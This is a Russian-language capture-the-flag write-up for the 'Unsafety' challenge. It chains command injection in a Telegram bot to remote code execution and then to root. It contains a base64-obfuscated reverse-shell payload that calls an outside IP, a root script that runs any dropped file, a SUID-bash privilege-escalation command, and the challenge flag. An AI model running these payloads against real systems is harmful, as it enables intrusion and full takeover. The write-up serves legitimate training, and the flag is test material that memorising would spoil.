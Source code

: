 # Unsafety

## Описание:

Sometimes what seems to be safe is not safe

| Название | Сложность | Автор |
|------|-----|-------|
| Unsafety | Medium |[@MrNansy](https://t.me/MrNansy) |


## TLDR

CMD injection to RCE, binary pwn to privilege escalation

---
## Решение:

В интерфейсе веб-приложения находим несколько ссылок, одна из которых ведет на телеграм-бота `https://t.me/russky_defense_bot`

Немного пообщавшись с ботом, понимаем, что форма поиска уязвима к SQL Injection

![изображение](https://github.com/user-attachments/assets/8e2abea9-f39f-4f2e-9168-e8f4fa521b5e)

Однако в решении задания это не поможет. Однако нагрузка вида 

```
/search ; sleep 5
```

Подтвердит предположение, что бот уязвим к CMD инъекции. Далее пробрасываем себе шелл

```
/search ; echo 'c2ggLWkgPiYgL2Rldi90Y3AvMTU4LjE2MC4xNDMuNjIvNDQ0NCAwPiYx' | base64 -d | bash
```

Попав на машину видим, что в фоне от имени root запущен следующий скрипт:

```
import time
import subprocess
import os
import logging
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler
import threading

UPLOAD_DIR = "/var/www/scripts"

logging.basicConfig(
    filename='/var/log/file_exec.log',
    level=logging.INFO,
    format='%(asctime)s - %(levelname)s - %(message)s'
)

class ExecuteHandler(FileSystemEventHandler):
    def on_created(self, event):
        if not event.is_directory:
            filepath = event.src_path
            logging.info(f"Новый файл обнаружен: {filepath}")
            if filepath.endswith(".sh") or filepath.endswith(".py") or filepath.endswith(".pl"):
                logging.info(f"Выполнение скрипта: {filepath}")
                thread = threading.Thread(target=execute_script, args=(filepath,))
                thread.start()
            else:
                logging.warning(f"Неподдерживаемый тип файла: {filepath}")

def execute_script(filepath):
    try:
        subprocess.Popen(
            ['bash', filepath],
            stdin=subprocess.DEVNULL,
            stdout=subprocess.DEVNULL,
            stderr=subprocess.DEVNULL,
            preexec_fn=os.setpgrp
        )
        logging.info(f"Скрипт {filepath} успешно выполнен.")
    except Exception as e:
        logging.error(f"Не удалось выполнить скрипт {filepath}: {e}")

def start_monitoring():
    event_handler = ExecuteHandler()
    observer = Observer()
    observer.schedule(event_handler, UPLOAD_DIR, recursive=False)
    observer.start()
    logging.info("Сервис выполнения файлов запущен")
    try:
        while True:
            time.sleep(1)
    except KeyboardInterrupt:
        observer.stop()
    observer.join()

if __name__ == "__main__":
    start_monitoring()
```

Скрипт мониторит и запускает другие скрипты, попадающие в директорию  `/var/www/scripts`

Пишем наш небольшой скрипт на любом поддерживаемом языке:

```shell
echo -e '#!/bin/bash\ncp /bin/bash /tmp/bash && chmod +s /tmp/bash' > /var/www/scripts/pwn.sh
```

Ждем пару секунд и получаем в `/tmp` рутовый бинарник баша с SUID-битом 

PWNed!

## Flag:
RDG{73l36r4m_b075_c4n_4l50_b3_un54f3}
